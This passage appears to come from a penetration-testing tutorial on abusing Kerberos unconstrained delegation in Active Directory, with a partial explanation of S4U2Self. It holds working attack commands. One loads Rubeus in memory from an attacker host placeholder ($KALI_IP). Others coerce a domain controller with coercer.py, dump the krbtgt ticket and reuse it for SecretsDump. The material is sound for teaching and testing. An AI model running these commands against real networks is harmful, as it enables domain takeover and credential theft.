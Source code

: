 Here we will have as an exemple an unconstrained delegation between `PC` and `DC`.

First connect to the machine (`PC`) then launch `Rubeus` in memory like so:
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://$KALI_IP:8080/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);
[Rubeus.Program]::MainString("triage");
```

This command allows you to list all available tickets. Now we can use `coercer` to force a connection from `PC` to `DC`:

```bash
python3 coercer.py -u $ADMIN_PC -d $DOMAIN_PC -p $PASS_ADMIN_PC1 -t $DC -l $PC_NAME 
```

Now if you run again the `triage` command, you should see the `krbtgt` ticket in the list. To recover it, you can use the following command:

```powershell
[Rubeus.Program]::MainString("dump /user:$MACHINE_NAME_DC /service:krbtgt /nowrap");
```

Now, we have a base64 ticket, you can convert it as a `ccache` file like so:
```bash
cat tgt.b64|base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=/PATH/TO/ticket.ccache
```

And now we can use it to use command with this ticket like `SecretsDump` for exemple using the `-k` option.

#### S4U2Self

`S4U2Self` is an extension of `Kerberos`. It allows a machine that does delegation to impersonate a user on itself. To be more specific, it allows the machine to get a `ST` for its service (itself) as any user. This is very convenient when a service does not use `Kerberos` as its authentication mechanism.

Lets say that you try to connect to a service that uses the `Net-NTLM` authentication mechanism. `Net-NTLM` doesn't use tickets, it is not related to `Kerberos`. This means that the delegation mechanism can't work because it relies on the use of `ST`. 

> `Protocol Transition` (PT) is the name of this mechanism. `PT` is the mechanism that allows connection from other protocols than `Kerberos` on a `Kerberos` environment. It does not allow a connection from another protocol, it allows a delegation from another protocol to kerberos.
{: .prompt-info}

This is where the `Protocol transition` (PT) enter the scene. This will allow us to get a valid ST for our own service using `S4U2Self` for the user that just authenticated using `Net-NTLM` or an attacker can use it to impersonate any user on our service machine like the admin for example. 

`S4U2Self` produces forwardable tickets only if the user is not a member of the `protected user` group or if it does not have the `UAC NOT_DELEGATED` attribute set. It will be important for `S4U2Proxy`.

#### S4U2Proxy
